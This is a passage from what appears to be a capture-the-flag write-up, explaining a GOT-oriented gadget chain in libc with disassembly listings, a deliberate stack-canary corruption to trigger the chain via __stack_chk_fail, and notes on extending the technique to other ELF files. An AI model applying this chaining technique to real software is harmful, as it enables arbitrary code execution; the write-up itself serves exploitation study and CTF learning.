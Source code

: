 ```
0005139f  488b542450         mov     rdx, qword [rsp+0x50 {var_878_1}]
000513a4  4b8d3c08           lea     rdi, [r8+r9]
000513a8  4c89fe             mov     rsi, r15
000513ab  48894c2440         mov     qword [rsp+0x40 {var_888_4}], rcx
000513b0  4c894c2420         mov     qword [rsp+0x20 {var_8a8_6}], r9
000513b5  4883c201           add     rdx, 0x1
000513b9  4c89442428         mov     qword [rsp+0x28 {var_8a0_6}], r8
000513be  e86d70fdff         call    jumps_memmove
```

The next gadget popped from the stack into a variety of registers -- although none of these registers are directly used in the backdoor call I found a couple gadgets which moved from r registers.  

```
0013076c  5b                 pop     rbx {__saved_rbx}
0013076d  5d                 pop     rbp {__saved_rbp}
0013076e  415c               pop     r12 {__saved_r12}
00130770  415d               pop     r13 {__saved_r13}
00130772  415e               pop     r14 {__saved_r14}
00130774  e9077eefff         jmp     jumps___strcasecmp
```

The last two gadgets are fairly straightforward and just move from r13/r14 into rdi/rsi -- at which pointer we have set up registers appropriately and can call syscall. 

```
000c651c  4c89f6             mov     rsi, r14
000c651f  4889d7             mov     rdi, rdx
000c6522  4d01e6             add     r14, r12
000c6525  48891424           mov     qword [rsp {var_1a8}], rdx
000c6529  e85221f6ff         call    jumps_wcsnlen
    
0011de45  4c89ef             mov     rdi, r13
0011de48  41bc01000000       mov     r12d, 0x1
0011de4e  e89da7f0ff         call    jumps_rindex    
```

I used __stack_chk_fail to trigger my GOP chain because it is a relatively simple function with a slim stack frame which made it easier to access the controlled section of the stack from the gadgets. On the last write when the start of the chain was written I intentionally corrupted the canary to start the chain with a shorter stack frame. 


## notes, thoughts, other approaches

It's worth noting that this type of attack isn't limited to just libc -- it can be applied to any ELF with a writeable (non full RELRO) GOT (although in practice libc is big and consistently available).  If a more complex chain were needed and more libraries were available then a chain could be built across multiple library GOT sections. 

```
cargo run -- ~/chrononaut-shmoo-24/time_jump/jump_planner_release/ld-linux-x86-64.so.2 | wc -l 
1395
```
